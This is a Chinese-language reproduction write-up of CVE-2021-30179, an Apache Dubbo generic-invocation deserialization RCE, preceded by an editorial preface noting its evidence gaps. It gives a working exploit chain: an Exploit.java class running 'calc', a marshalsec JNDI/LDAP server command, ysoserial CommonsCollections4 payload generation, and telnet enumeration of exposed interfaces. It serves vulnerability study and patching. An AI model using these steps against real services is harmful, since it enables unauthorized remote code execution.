










# CVE-2021-30179：Apache Dubbo RCE 复现

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：可达泛化调用入口，掌握接口/方法；演示项目额外加入 xbean 和 CommonsCollections4；JNDI 链受 JDK 限制
- 证据范围：三种泛化转换路径及实验过程完整，但实验 gadget 为额外配置，不能证明原生安装同样可利用。

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 必须保留演示项目人为增加 gadget 的说明
- telnet ls 枚举依赖相关 handler 开放，并非普遍可用
- JNDI 两条链未交代远程类加载/JDK 约束
- 构建命令使用 Unicode 长短横混淆参数；第三条链的实际发送实现仅指向外部仓库
- 修复建议缺少各分支明确修复版本

### 操作风险与资料使用

- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/68JEDKPIhuOVWh6waTLZ1A)

**上方蓝色字体关注我们，一起学安全！**

**作者：****lz2y****@Timeline Sec  
**

**本文字数：1112**

**阅读时长：3～4min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

Apache Dubbo 是一个分布式框架，致力于提供高性能透明化的 RPC 远程服务调用方案，以及 SOA 服务治理方案。Apache Dubbo 在实际应用场景中主要负责解决分布式的相关需求。

**0x02 漏洞概述**  

  

**编号：CVE-2021-30179**  

Apache Dubbo 默认支持泛化引用由服务端 API 接口暴露的所有方法，这些调用由 GenericFilter 处理。GenericFilter 将根据客户端提供的接口名、方法名、方法参数类型列表，根据反射机制获取对应的方法，再根据客户端提供的反序列化方式将参数进行反序列化成 pojo 对象，反序列化的方式有以下选择：

*   true
    
*   raw.return
    
*   nativejava
    
*   bean
    
*   protobuf-json
    

我们可以通过控制反序列化的方式为 raw.return/true、nativejava、bean 来反序列化我们的参数从而实现反序列化，进而触发特定 Gadget 的，最终导致了远程命令执行漏洞

**0x03 影响版本**  

  

Apache Dubbo 2.7.0 to 2.7.9

Apache Dubbo 2.6.0 to 2.6.9

Apache Dubbo all 2.5.x versions (官方已不再提供支持)

**0x04 环境搭建**  

  

以 Apache Dubbo 2.7.9 为测试环境

1、下载 zookeeper  

```
https://archive.apache.org/dist/zookeeper/zookeeper-3.3.3/zookeeper-3.3.3.tar.gz
```

解压后的根目录下新建 data 和 logs 两个文件夹，修改 conf 目录下的 zoo_sample.cfg 为 zoo.cfg，覆盖原有的 dataDir 并添加 dataLogDir  



2、双击 bin 目录下的 zkServer.cmd，启动 zookeeper，默认监听 2181 端口  



3、下载测试 Demo 及 POC：  

```
https://github.com/lz2y/DubboPOC
```

该测试 Demo 是我在基础的 Dubbo 测试项目上添加了需要使用的 Gadget 所需的依赖（该 CVE 使用的为 org.apache.xbean 以及 CC4）  

师傅们也可以参考 [https://mp.weixin.qq.com/s/9DkD2g09mmplZ7mow81sDw](https://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247485254&idx=1&sn=a5d3024742929a7ca91177452e49b831&scene=21#wechat_redirect) 安装官方提供的项目进行测试  

（项目里的 POC 是我在参考链接的基础上修改后的结果，后续会更新 Dubbo 的其他 CVE、GHSL 的 POC）  

4、启动 Provider  



**0x05 漏洞复现**  

  

1、下载 marshalsec 并编译得到 jar 包  

```shell
git clone https://github.com/mbechler/marshalsec
mvn clean package –DskipTests
```

2、创建 Exploit.java 文件，通过 javac 得到 Exploit.class 文件

```
public class Exploit {
 
    static {
        System.err.println("Pwned");
        try {
            String cmds = "calc";
            Runtime.getRuntime().exec(cmds);
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }
}
```

3、在 Exploit.class 目录下开启 http 服务  

```shell
python -m http.server 8000
```



4、使用 marshalsec 开启 JNDI 服务  

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 8087
```

5、查看暴露的接口及其方法  

```
telnet Dubbo服务ip Dubbo服务端口
ls
cd 服务
ls
```



打开  

src\main\java\top\lz2y\vul\CVE202130179.java 修改上一步得到的接口名及其方法  



6、替换 CVE-2021-30179.java 中的 POC1 的 ldap uri



填写 Dubbo 服务的 ip 以及端口号  



7、运行即可发起 JNDI 注入执行打开计算器  



POC2 同 POC1，只需修改 LDAP 服务地址即可使用  

POC3 为通过 nativejava 选项反序列化触发 sink 点，这里以 CC4 为例，利用 yso 生成 CC4 的序列化文件

```
java -jar ysoserial.jar CommonsCollections4 "calc" > 1.ser
```

修改 POC 中反序列化文件的路径



运行即执行 calc 弹出计算器

**0x06 修复方式**  

  

升级 Apache Dubbo 至最新版本；

设置 Apache Dubbo 相关端口仅对可信地址开放。

```
参考链接：
```

https://mp.weixin.qq.com/s/9DkD2g09mmplZ7mow81sDw

https://securitylab.github.com/advisories/GHSL-2021-034_043-apache-dubbo/  


  


**阅读原文看更多复现文章**

Timeline Sec 团队  

安全路上，与你并肩前行

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
